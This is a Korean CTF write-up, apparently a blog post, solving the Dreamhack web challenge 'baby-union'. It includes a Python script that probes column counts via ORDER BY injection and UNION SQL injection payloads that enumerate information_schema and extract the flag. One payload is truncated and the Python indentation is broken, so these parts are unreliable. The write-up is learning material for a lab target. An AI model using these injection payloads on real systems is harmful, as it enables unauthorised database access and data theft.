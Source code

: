 ```yaml
---
layout: post
title: "[드림핵][Lv.1] baby-union 문제 풀이"
date:   2025-07-16 21:00:00 +0900
categories: [CTF & Writeups]
tags: [wargame, web, union-sqli]
---
```



## 1. 개요 (Overview)

- **플랫폼 (Platform)**: 드림핵
- **문제 이름 (Challenge)**: baby-union
- **분야 (Category)**: 웹해킹
- **문제 링크 (URL)**: [드림핵  워게임](https://dreamhack.io/wargame/challenges/984)



## 2. 문제 분석 (Problem Analysis)
**문제 설명**
- 로그인 시 계정의 정보가 출력되는 웹 서비스이다.
- SQL INJECTION 취약점을 통해 플래그를 획득하세요. 문제에서 주어진 `init.sql` 파일의 테이블명과 컬럼명은 실제 이름과 다릅니다.

```sql
CREATE TABLE fake_table_name (
	idx int auto_increment primary key,
	fake_col1 varchar(128) not null,
	fake_col2 varchar(128) not null,
	fake_col3 varchar(128) not null,
	fake_col4 varchar(128) not null

);
INSERT INTO fake_table_name (fake_col1, fake_col2, fake_col3, fake_col4) values ('flag is ', 'DH{sam','ple','flag}');
```

### 2-1. 컬럼 수 찾는 파이썬 코드

```python
import requests
import warnings


# SSL 경고 무시 (테스트 환경에서만 사용)
warnings.filterwarnings('ignore', message='Unverified HTTPS request')
def find_sql_column_count(target_url):

	"""
	POST 기반 SQL Injection에서 ORDER BY를 사용해 컬럼 수를 찾습니다.
	uid와 upw 파라미터를 모두 전송 한다.
	"""

	print("[-] 컬럼 수 확인을 시작합니다...")

	# 확인할 최대 컬럼 수
	max_columns = 25

	for i in range(1, max_columns + 1):
		# uid에 주입할 페이로드
		payload = f"' OR 1=1 ORDER BY {i}#"

		# POST 요청으로 보낼 데이터. upw에 임의의 값을 넣어줘야 합니다.
		post_data = {
			'uid': payload,
			'upw': 'dummy_password'

		}

		try:
			# POST 요청 전송. verify=False는 HTTPS 인증서 검증을 건너뜁니다.
			response = requests.post(target_url, data=post_data, timeout=5, verify=False)

  

			# HTTP 500 에러가 발생하면 컬럼 수가 초과된 것입니다.
			# 웹 애플리케이션의 반응에 따라 이 조건은 달라질 수 있습니다.

			if response.status_code == 500:
				column_count = i - 1
				print(f"\n[+] 컬럼 수를 찾았습니다: {column_count}개")
				return column_count

			else:

				print(f"[*] {i}개 컬럼 확인... (상태 코드: {response.status_code}, 정상 응답)")

			except requests.exceptions.RequestException as e:

				print(f"[!] 요청 중 오류 발생: {e}")
				return None

		print(f"[-] {max_columns}개까지 시도했지만 컬럼 수를 찾지 못했습니다.")
		return None

if __name__ == '__main__':
	# 실제 공격 대상 URL로 변경해야 합니다.
	URL = "http://host3.dreamhack.games:19347/" # 대상 주소로 변경하세요.

	# 함수 실행
	find_sql_column_count(URL)    

```

### 2-2. 문제 해설
- 이 문제는 파이썬 코드보다 sql 쿼리를 보는게 핵심이다.
- 이 문제에서 요구하는건 공격자가 컬럼 수를 찾아서, union 인젝션을 사용하여 테이블명과 컬럼명 찾고, flag 값을 얻어 낼 수 있느냐 라는 문제이다.
- 그래서 이 문제는 크게 3가지 단계로 문제를 접근해야 하다.


#### (1) 테이블의 컬럼 수는 몇개 있고, 어떤 컬럼을 출력하는지 알아야 한다.
- 처음에 컬럼 수를 확인하기 위해서 나 처럼 파이썬 코드를 작성하기도 할 수 있지만 일단 간단한 테스트는 아래와 같은 페이로드이다.

**[페이로드]**
~~~sql
' union select 1#
' union select 1,2#
' union select 1,2,3#
' union select 1,2,3,4#
~~~

---

- 이렇게 작성 할 때 주의해야하는거 upw 입력 폼에서도 아무 값을 넣어줘야 한다는 것이다.
- 그리고 위 페이로드 처럼 하나씩 증가하면서 컬럼 수의 수를 찾으면 된다.
- 이렇게 컬럼의 수를 찾으면 어떤 컬럼 위치에서 출력이 되는지 파악하면 된다.
- 위 문제에서는 2, 4번 컬럼에 출력이 되는 것이 확인 되었다.


#### (2) 테이블 명을 찾아야 한다.
- 이제 컬럼의 수를 알았으니 flag가 있는 테이블명을 찾아야 한다.
- 위 문제에서는 테이블명을 제대로 알려주지 않았기 때문에 테이블명을 찾아야 하는데, mysql 서버 내에는 DB의 메타 정보를 모아둔 DB가 있다.
- 우리는 이걸 이용해서 테이블명을 찾아야 한다.
- mysqli 메타정보 확인하는 건 매우 중요하기 때문에 알아둬야 하겠지만, 추후 나중에 SQL 인젝션 관련 정리를 하면 이 내용을 설명하겠다.
- 지금은 일단 테이블 명을 찾는 페이로드를 작성해보면

**[테이블명을 찾는 페이로드]**
~~~sql
' union select 1,group_concat(table_name),3, 4 from information_schema.tables where table_schema=database()#
~~~

- 위의 명령을 치면 두번째 컬럼에 현재 데이터베이스의 테이블명을 모두 출력해주는데 출력 되는 테이블은 users, onlyflag 이다.
- users 테이블명은 이미 init.sql 를 통해 확인 되었고, 우리가 찾는 flag는 onlyflag 테이블이 있는 것으로 예상 된다.


#### (3) 테이블명을 이용하여 컬럼을 찾아야 한다.
- 우리는 2-2에서 테이블을 확인 했다.
- 이제 찾은 테이블명을 통해 컬럼을 찾아보자
- 컬럼명을 찾는 것 역시 mysql 메타데이터의 DB 정보를 통해서 찾을 수 있다.

**[컬럼명을 찾는 페이로드]**
~~~sql
up_concat(column_name),3, 4 from information_schema.columns where table_name='onlyflag'#
~~~

- 위의 페이로드를 통해서 olnyflag 테이블 안에 idx,sname,svalue,sflag,sclose 라는 컬럼이 있다는 것을 확인 할 수 있었다.


- 이제 init.sql 파일을 열어서 다시 확인 해보면 

**[init.sql 부분]**
~~~sql
INSERT INTO fake_table_name (fake_col1, fake_col2, fake_col3, fake_col4) values ('flag is ', 'DH{sam','ple','flag}');
~~~

- flag 값은 fake_col2, 3,4 컬럼을 합치면 된다는 것을 알았다. 



#### (4) 컬럼을 활용해 flag 확인
- 테이블명과 컬럼명을 확인 했으니 이제 값을 찾는건 단순하다.

**[flag 값 확인]**
~~~sql
' union select 1, (SELECT svalue FROM onlyflag), 3, 4#
' union select 1, (SELECT sflag FROM onlyflag), 3, 4#
' union select 1, (SELECT sclose FROM onlyflag), 3, 4#
~~~

- 이렇게 두 번째 컬럼 이용해서 하나씩 추출 해도 되고, 2, 4번 컬럼을 통해서 한번에 두개의 값을 추출해도 된다.
- 이렇게 추출한 값을 하나로 뭉치면 하나의 flag 값이 된다.

---


